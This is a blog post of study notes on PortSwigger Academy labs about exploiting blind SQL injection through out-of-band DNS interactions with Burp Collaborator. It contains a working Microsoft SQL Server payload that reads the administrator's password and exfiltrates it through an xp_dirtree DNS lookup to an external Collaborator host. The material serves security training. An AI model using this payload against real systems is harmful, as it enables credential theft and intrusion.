 ```yaml
---
title: 5. Out-of-band Application Security Techniques
date: 2023-12-23
categories: [PortSwigger, SQL injection]
tags: [portswigger, sqli, sql, burp, out-of-band, oast-sqli, burp-collaborator]
img_path: /assets/portswigger/sqli/oast_sqli
published: true
---
```


## Exploiting blind SQLi using Out-of-band Application Security Techniques (OAST)

An app might carry out a SLQ query asynchronously. The app continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. They query is still vulnerable to SQLi, but none of the techniques described so far will work. The app's response does not depend on the [query returning any data](https://cspanias.github.io/posts/PS-SQLi-3.-Blind-SQLi/), [error messages](https://cspanias.github.io/posts/PS-SQLi-4.-Error-based-SQLi/), or on the [time taken to execute the query](https://cspanias.github.io/posts/PS-SQLi-5.-Time-delayed-SQLi/).

In this situation, it is often possible to exploit the blind SQLi vulnerability by triggering out-of-band network interactions to a system that we control. These can be triggered based on an injected condition to infer info one piece at a time. More usefull, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effecting is DNS. Most productions networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

We can use Burp Collaborator for OAST techniques. This is a server that provides custom implementations of various network services, including DNS. It allows us to detect when network interactions occur as a result of sending invidual payloads to a vulnerable app. Burp Suite Pro includes a built-in client that's configured to work with Burp Collaborator right out of the box.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

![](dns_lookup_payload.png){: .normal}

This cause the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`. We can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

### Lab: Blind SQL injection with out-of-band interaction

> **Objective**: _This lab contains a blind SQLi. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. To solve the lab, exploit the SQLi vulnerability to cause a DNS lookup to Burp Collaborator._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Exploiting blind SQLi using OAST techniques

Having confirmed a way to trigger OAST interactions, you can then out-of-band channel to exfiltrate data from the vulnerable app. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the `password` for the `Adminstrator` users, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`. OAST are a powerful way to detect and exploit blind SQLi, due to the high chance of success and the ability to directly exfiltrate data with the out-of-band channel. For this reason, OAST are often preferable even in situations where other techniques for blind exploitation work.

### Lab: Blind SQL injection with out-of-band data exfiltration

> **Objective**: _This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQLi vulnerability to find out the password of the `administrator` user. To solve the lab, log in as the `administrator` user._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Resources

- [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection).
- [SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- Rhana's [video walkthrough](https://www.youtube.com/watch?v=KOaDan0UqFs).